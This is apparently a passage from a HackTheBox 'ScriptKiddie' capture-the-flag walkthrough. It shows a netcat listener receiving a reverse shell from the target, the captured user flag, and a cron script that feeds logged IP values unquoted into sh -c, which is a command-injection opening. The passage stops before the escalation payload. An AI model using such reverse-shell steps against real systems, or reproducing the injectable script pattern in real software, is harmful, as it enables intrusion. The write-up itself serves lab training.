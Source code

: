 
# User-flag

We get access and we grab user flag:

```
root@kali:/opt/htb/ScriptKiddie# nc -nlvp 5555
listening on [any] 5555 ...
^[[B



connect to [10.10.14.28] from (UNKNOWN) [10.10.10.226] 57700
/bin/sh: 1: : not found

uname -a
Linux scriptkiddie 5.4.0-65-generic #73-Ubuntu SMP Mon Jan 18 17:25:17 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
whoami
kid
pwd
/home/kid/html
cd /home/kid
ls
html
logs
snap
user.txt
cat user.txt
a28bb8812f96f08b73d6e8516a25074f
```

# Privesc

We found a cronjob:

```
kid@scriptkiddie:~$ cd /home/pwn/
kid@scriptkiddie:/home/pwn$ ls -l
total 8
drwxrw---- 2 pwn pwn 4096 May 27 22:50 recon
-rwxrwxr-- 1 pwn pwn  250 Jan 28 17:57 scanlosers.sh
kid@scriptkiddie:/home/pwn$ cat scanlosers.sh
#!/bin/bash

log=/home/kid/logs/hackers

cd /home/pwn/
cat $log | cut -d' ' -f3- | sort -u | while read ip; do
    sh -c "nmap --top-ports 10 -oN recon/${ip}.nmap ${ip} 2>&1 >/dev/null" &
done

if [[ $(wc -l < $log) -gt 0 ]]; then echo -n > $log; fi
```
